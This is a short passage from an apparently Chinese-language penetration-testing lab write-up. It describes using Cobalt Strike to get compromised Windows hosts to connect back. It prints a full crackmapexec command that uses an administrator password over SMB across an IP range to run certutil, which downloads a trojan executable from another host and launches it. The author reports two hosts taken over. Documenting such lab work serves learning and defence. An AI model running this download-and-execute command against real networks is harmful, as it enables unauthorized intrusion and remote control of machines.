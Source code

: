 ![image-20230630100632235](assets/jdLFoA9JQZVXahC.png)

#### 6.2.2.4. 上线操作

这里需要先使用cs设置转发上线，并设置一个木马，让目标主机下载，然后在去执行，实现上线操作。这里就不演示如何设置cs的转发上线，直接生成木马吧。

当然我这里是使用反向的，懒得使用正向的再去连接了，可以看是成功上线了两台。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth
```

![image-20230630101343127](assets/KGiv173HczMYBPd.png)